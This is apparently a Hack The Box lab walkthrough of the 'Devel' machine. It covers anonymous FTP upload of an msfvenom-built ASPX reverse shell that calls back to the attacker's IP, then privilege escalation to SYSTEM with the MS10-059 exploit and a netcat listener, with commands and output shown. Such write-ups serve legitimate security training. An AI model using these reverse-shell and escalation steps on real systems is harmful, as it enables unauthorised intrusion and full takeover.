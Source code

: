 ```yaml
---
layout: post
title: "HTB-Devel"
date: 2020-02-16 12:13:55 +0000
categories: HTB-Walkthrough
---
```


![devel](http://localhost:4000/sh1n0bi-dojo/assets/img/devel.png)

Hi, lets get stuck in...

Im settling on a good 'less intrusive' nmap command to start enumeration of a machine with...

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.5 |tee -a dev.txt`

Often depending on the results, ill run `-sC` or `--script=vuln` either on specific ports, or the default range.

{% highlight ruby %}
Nmap scan report for 10.10.10.5
Host is up (0.092s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
{% endhighlight %}

In this case, its not really necessary, we can just manually test the target's ftp port to see if it will allow anonymous login.

`ftp 10.10.10.5` then use the username `anonymous` with any password like `aosdidhf`, and we got access.

A test to upload random text.txt file is successful, so we can potentially upload a reverse-shell of some sort to get a command shell on the target.

############################

The website on port 80 displays the Welcome page we found in the ftp directory...
The target is running an aspnet client, which means if we upload an evil.aspx file, we can browse to it on port 80 to trigger it.

So lets first use MSFvenom to craft an evil.aspx reverse-shell file...
`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.19 lport=443 -f aspx -o evil.aspx`

Next we `put` the file onto the target via the ftp service.

{% highlight ruby %}
root@kali:~/HTB/prep/devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> 
{% endhighlight %}

in main ftp (root directory) `put evil.aspx`


Now just browse to `http://10.10.10.5/evil.aspx` to execute.

##################################

So we got a windows cli shell, and we need to escalate our privilages to get ntauthority/system to enable us to read root.txt in the Administrator's Desktop.

Now's a handy time to get familiarized with `windows-exploit-suggester.py`. 

First we need to do is run the command `systeminfo` then copy'n'paste the results onto our kali machine
into a text-file, in this case called sysinfo.txt.

{% highlight ruby %}
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          29/1/2020, 5:13:44 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 720 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.546 MB
Virtual Memory: In Use:    501 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
{% endhighlight %} 

Read the python program first for instructions ...

{% highlight ruby %}
# USAGE
# 
# update the database
#
# $ ./windows-exploit-suggester.py --update
# [*] initiating...
# [*] successfully requested base url
# [*] scraped ms download url
# [+] writing to file 2014-06-06-mssb.xlsx
# [*] done
#
# install dependencies
#
# (install python-xlrd, $ pip install xlrd --upgrade)
#
# feed it "systeminfo" input, and point it to the microsoft database
#
# $ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
{% endhighlight %}

The result of following these instructions, is a list of potential methods of privilage escalation.

In this case we chose ms10-059 (chimichurri.exe)

Upload it again via ftp. Then transfer it to a place we can execute it.
I often create a directory in C: to work from (which I can remove later)
`mkdir c:\boo`

Before we execute the evil.exe, lets get a listener running on kali to catch the shell...
`nc -nlvp 999`

Then on the target run...
`c:\boo\evil.exe 10.10.14.19 999`


{% highlight ruby %}
root@kali:~/HTB/retired/devel# nc -nlvp 999
listening on [any] 999 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\boo>whoami
whoami
nt authority\system
{% endhighlight %}

From here it is trivial to navigate to the user and Admin Desktops to get the user.txt.txt and root.txt.txt files.
read them with the `type` command.
eg.`type root.txt.txt`


The scenario is a simple one, but still encountered 'in the wild', and the widows-exploit-suggester.py' is definately a handy tool to have in your armoury.

####################################################################

